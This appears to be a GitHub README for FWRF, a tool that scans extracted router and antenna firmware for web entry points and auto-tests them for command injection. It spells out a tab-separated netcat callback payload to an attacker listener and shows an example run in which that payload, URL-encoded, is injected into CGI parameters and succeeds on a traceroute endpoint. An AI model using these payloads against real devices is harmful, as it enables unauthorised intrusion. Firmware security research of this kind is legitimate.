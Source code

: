 # Firmware Web Rce Finder

FWRF (don't try to pronounce it) is a open source tool for firmware web-side analysis.

## Why FWRF ?

Due to some stupids minds, the new trend is to put computers in everything.
This poc was initially written for testing some wifi antennas firmware.

The only common element between linux-embedded stuff with web interface is the front side (html/js), the rest can be PHP (ubiquiti), ELF (netgear), some_new_hype_technology... Doesn't matter.

The Goal of FWRF is to find entrypoints, vulnerabilities and try to autosploit them.

## How ?
FWRF is composed of 4 parts:
 * File scan : Scan all files in extracted-firmware direcctory
 * Entrypoint scan : extracts urls with args, forms, etc.
 * Check rce : try basic code execution via thoses parameters
 * Test server : Start a test server for manual search

## Rce checking
 * A server is started attacker-side (listening to port 10020) and waiting for a tcp packet.
 * the payload sent to {insert here a hype-connected-device name} is `echo\t1|nc\tattacker_ip\t10020`
 * in case of a dumb code (ex: `exec("/bin/do_stuff --foobar $parameter")` with controlled parameter, the packet is sent to attacker and FWRF know the attack success.

## How to start
 * Get the awesome tool Binwalk (http://binwalk.org/) and extract the firmware.bin
 * mount/extract partition (sasquatch is great for this : https://github.com/devttys0/sasquatch)
 * launch FWRF
 * profit

## Usage
```
usage: main.py [-h] [-s] [-f BASE_FOLDER] [-r REMOTE_ADDRESS]
               [-l LOCAL_ADDRESS] [-c COOKIES] [-v]

Firmware web rce finder

optional arguments:
  -h, --help            show this help message and exit
  -s, --server          run test server only for manual tests
  -f BASE_FOLDER, --folder BASE_FOLDER
                        base folder of the extracted firmware
  -r REMOTE_ADDRESS, --remote REMOTE_ADDRESS
                        Address of live machine (like 192.168.0.1)
  -l LOCAL_ADDRESS, --local LOCAL_ADDRESS
                        Address of this machine (like 192.168.0.1)
  -c COOKIES, --cookies COOKIES
                        Use cookies for authenticated parts
  -v, --verbose         Verbose mode
```

 * -s : start the test server, waiting for a tcp packet on port 10020
 * -f : path to the extracted firmware partition
 * -r : remote connected-stuff ip
 * -l : attacker ip (used in payload generation)
 * -c : cookies, if remote interface need authentication ("foo=bar&baz=gu")
 * -v : show more stuff

## No magic exploitation

FWRF is not magic, it will only trigger obvious rce.
But if you want to search further, it can help. First, use -f and -v parameters, the full list of entry points, parameters and http method is returned. Then, start the test server and search by yourself using the provided payload (or anything sending tcp packet on 10020).

## Example
(Real mode have nice colored output)
```
~/p/firmware_web_rce_finder ❯❯❯ python ./FWRF.py -f /tmp/firmware_to_analyse.bin.extracted/squashfs-root/ -v -r 192.168.0.11 -l 192.168.0.10
 --- Firmware web rce finder ---
Search files
Search input
Clean inputs
- (GET) http://192.168.0.11/jsl10n.cgi : l={PAYLOAD}&v={PAYLOAD}&staif={PAYLOAD}&staid={PAYLOAD}
- (POST) http://192.168.0.11/ticket.cgi : uri={PAYLOAD}&ticketid={PAYLOAD}&submit={PAYLOAD}
- (POST) http://192.168.0.11/login.cgi : uri={PAYLOAD}&username={PAYLOAD}&password={PAYLOAD}&lang_changed={PAYLOAD}
- (POST) http://192.168.0.11/traceroute_action.cgi : dst_host={PAYLOAD}&resolve={PAYLOAD}&action={PAYLOAD}&tr_start={PAYLOAD}
Run tests :
- FAIL : (GET) http://192.168.0.11/jsl10n.cgi : l=%60echo%091%7Cnc%09192.168.0.10%0910020%60&v=%60echo%091%7Cnc%09192.168.0.10%0910020%60&staif=%60echo%091%7Cnc%09192.168.0.10%0910020%60&staid=%60echo%091%7Cnc%09192.168.0.10%0910020%60
- FAIL : (POST) http://192.168.0.11/ticket.cgi : uri=%60echo%091%7Cnc%09192.168.0.10%0910020%60&ticketid=%60echo%091%7Cnc%09192.168.0.10%0910020%60&submit=%60echo%091%7Cnc%09192.168.0.10%0910020%60
- FAIL : (POST) http://192.168.0.11/login.cgi : uri=%60echo%091%7Cnc%09192.168.0.10%0910020%60&username=%60echo%091%7Cnc%09192.168.0.10%0910020%60&password=%60echo%091%7Cnc%09192.168.0.10%0910020%60&lang_changed=%60echo%091%7Cnc%09192.168.0.10%0910020%60
- SUCCESS : (POST) http://192.168.0.11/traceroute_action.cgi : dst_host=%60echo%091%7Cnc%09192.168.0.10%0910020%60&resolve=%60echo%091%7Cnc%09192.168.0.10%0910020%60&action=%60echo%091%7Cnc%09192.168.0.10%0910020%60&tr_start=%60echo%091%7Cnc%09192.168.0.10%0910020%60
Finish
```

## License
```
/*
 * ----------------------------------------------------------------------------
 * "THE BEER-WARE LICENSE" (Revision 42):
 * Ganapati wrote this file. As long as you retain this notice you
 * can do whatever you want with this stuff. If we meet some day, and you think
 * this stuff is worth it, you can buy me a beer in return.
 * ----------------------------------------------------------------------------
 */
```
